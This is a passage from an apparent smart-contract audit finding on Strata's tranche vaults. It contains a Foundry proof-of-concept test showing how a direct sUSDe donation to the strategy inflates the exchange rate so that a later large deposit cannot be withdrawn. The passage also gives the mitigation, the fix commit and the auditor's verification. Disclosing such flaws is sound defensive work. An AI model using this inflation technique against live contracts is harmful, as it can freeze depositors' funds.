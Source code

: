 ```solidity
            sUSDe.deposit(1e18, alice);
            // Step 1 => Alice transfers 1 sUSDe directly to the strategy to inflate the exchange rate and deposits 1.1e18 USDe that results in minting 1 TrancheShare
            sUSDe.transfer(address(sUSDeStrategy), 1e18);
            USDe.approve(address(jrtVault), type(uint256).max);
            jrtVault.deposit(1.1e18, alice);
        vm.stopPrank();

        assertEq(jrtVault.totalSupply(), 1);

        USDe.mint(bob, 1_000_000e18);
        vm.startPrank(bob);
            USDe.approve(address(jrtVault), type(uint256).max);
            //Step 2 => Now Bob deposits 1million USDe into the Tranche
            //Because of the manipulated exchange rate, the total minted TrancheShares for such a big deposits won't even be enough to reach the MIN_SHARES
            jrtVault.deposit(1_000_000e18, bob);
            assertLt(jrtVault.totalSupply(), MIN_SHARES);

            //Step 3 => Bob attempts to make a withdrawal, but the withdrawal reverts because the total shares on the Tranche don't reach MIN_SHARES
            vm.expectRevert(IErrors.MinSharesViolation.selector);
            jrtVault.withdraw(10_000e18, bob, bob);

            vm.expectRevert(IErrors.MinSharesViolation.selector);
            jrtVault.withdraw(100e18, bob, bob);

            vm.expectRevert(IErrors.MinSharesViolation.selector);
            jrtVault.withdraw(90_000e18, bob, bob);

            vm.expectRevert(IErrors.MinSharesViolation.selector);
            jrtVault.withdraw(1e18, bob, bob);
        vm.stopPrank();
    }
```

**Recommended Mitigation:**
1. Consider making a deposit of at least 1 full USDe on the same tx when the Tranche is deployed. Ideally, set the receiver of the deposit as `address(1)`, these shares should be considered unusable, so the minted TrancheShares are effectively used as the lower bound to not fall below the MIN_SHARES.

2. Take special care with the deployment script. To grant approvals to the strategy for pulling the deposited assets from the Tranche, you must call `Tranche::configure` (this function is required to call `StrataCDO::configure`, which requires the 2 Tranches and Strategy to have been deployed).

**Strata:**
Fixed in commit [f344885](https://github.com/Strata-Money/contracts-tranches/commit/f344885d35f2acfd93b80a9c8d37df7e89ae2f08) by transferring any donations made to the strategy before the first deposit into the reserve.

**Cyfrin:** Verified. On the same transaction, when enabling deposits and making the first deposit, `cdo::reduceReserve` must be called before making the first deposit to sweep any donations to the strategy, as deposits were not enabled before this point.
